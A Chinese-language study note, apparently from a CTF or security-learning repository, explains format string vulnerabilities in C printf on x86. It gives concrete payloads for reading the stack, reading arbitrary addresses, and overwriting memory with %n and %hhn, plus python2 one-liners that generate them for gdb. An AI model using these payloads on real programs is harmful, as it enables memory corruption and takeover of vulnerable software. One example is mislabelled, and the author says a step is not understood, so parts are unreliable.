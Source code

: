 ## 1 原理

在 x86 结构下，格式字符串的参数是通过栈传递的。 printf 是变长的，如果没有标记栈边界，就会导致 printf 函数随意操纵栈空间。
format string 的输出个数和调用者实际打算的输出 arg **个数不一致** 。
printf( format , arg1 ,arg2 ,arg3 .....)

## 2 漏洞利用

### 2.1 使程序崩溃

输入超长格式化字符串，导致内存访问越界
```bash
printf("%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s")
```

在 Linux 中，存取无效的指针会引起进程收到 `SIGSEGV` 信号，从而使程序非正常终止并产生**核心转储**（在 Linux 基础的章节中详细介绍了核心转储）。我们知道核心转储中存储了程序崩溃时的许多重要信息，这些信息正是攻击者所需要的。

### 2.2 查看栈内容

由于在 x86 上栈由高地址向低地址增长，而 `printf()` 函数的参数是以逆序被压入栈的，所以**参数在内存中出现的顺序与在 `printf()` 调用时出现的顺序是一致的。**
![格式化字符串漏洞覆盖方向](img/格式化字符串漏洞覆盖方向.jpg)

如果我们想要直接获得被指定的某个参数，则可以使用类似下面的格式字符串：

```text
%<arg#>$<format>

%k$x
```

### 2.3 查看任意地址的内存

攻击者可以**使用一个“显示指定地址的内存”的格式规范**来查看任意地址的内存。例如，使用 `%s` 显示参数　指针所指定的地址的内存。

```bash
# 打印地址
%7$x
1e240

# 打印数字
%7$d
123456

# 打印字符串
%7$d
123456
```

如果我们想获取的是任意的地址的内容，就需要我们自己将地址写入到栈中。我们输入 `AAAA.%p` 这样的格式的字符串，观察一下栈有什么变化。

以上要求的漏洞利用条件包括3个

- 可以输入
- 知道输入数据在哪里，可以找到
- 使用指针类型访问内存的格式化字符串，显示对应的字符

### 2.4 覆盖栈内容

`%n` 转换指示符将 `%n` 当前已经成功写入流或缓冲区中的字符个数存储到**地址由参数位置指定的对应的栈位置上**。

说人话就是 %n 会把打印的字符串长度写入栈中，写入栈的位置由 %n 所在的参数位置决定。

通过使用具体的宽度或精度的转换规范来控制写入的字符个数，即在格式字符串中加上一个十进制整数来表示输出的最小位数.

```c
printf("%0134512640d%n\n", 1, &i);
$ ./a.out
...
0x8048000
```

此处没有看懂，为什么会是这样构造的，为什么打印的所有字符串长度会直接存储到开始的地址。

```bash
\x38\xd5\xff\xff%08x%08x%012d%13$n

4+16+12=32字节
%13$n
```

### 2.5 覆盖任意地址栈内容

注意：**构造 payload 的时候 8 字节对齐。**

#### 2.5.1 覆盖长度小于4

```bash
# 0xffffd538 = 2 
"AA%15$nA"+"\x38\xd5\xff\xff"
```

#### 2.5.2 大数字覆盖

 **逐字节的覆盖**

可以通过长度字段控制写入的大小

如

```bash
$ python2 -c 'print("A%15$hhn"+"\x38\xd5\xff\xff")' > text
0xffffd530:     0xffffd564      0x00000001      0x88888801      0xffffffff
```

## 3  常见格式化字符串漏洞函数

- printf

特殊格式化字符

| 字符 | 说明                                           |
| ---- | ---------------------------------------------- |
| *n*$ | n 是**参数**编号，操作对应的栈上的数据。       |
| %n   | 将该占位符前面的所有输出长度写入栈上的对应参数 |
|      |                                                |

格式化字符介绍

共分为：
- 参数字段  如 n$
- 宽度字段  %kd
- 精度字段
- 长度字段  如 hh / 1byte 、 h / 2byte 
- 类型字段，如 x ，d

## 4 思考

- 如何测试格式化字符串漏洞? 是否存在， fuzz with 超长格式化字符串，如果程序退出了，那么很可能存在格式化字符串。
  可以在路由器固件中测试格式化字符串函数。

- 核心转储 ？ 

## 5 小技巧

```bash
##  如何输入二进制地址 0xffffd538
python2 -c 'print("AA%15$nA"+"\x38\xd5\xff\xff")' > text

##   gdb 调试的时候输入构造的二进制数据
r < text 
```

**注意：**

调试的时候首先需要关闭 ASLR， 这可以保证栈在 gdb 环境中运行内存地址不会变化。但是直接运行和在 gdb 调试的时候，栈地址不一定是相同的。

## 6 参考

- [ctf all in one 格式化字符串漏洞](https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/3.1.1_format_string.html#%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)
- [Wiki  printf c format string](https://en.wikipedia.org/wiki/Printf_format_string#:~:text=printf%20format%20string%20refers%20to,and%20many%20other%20programming%20languages.)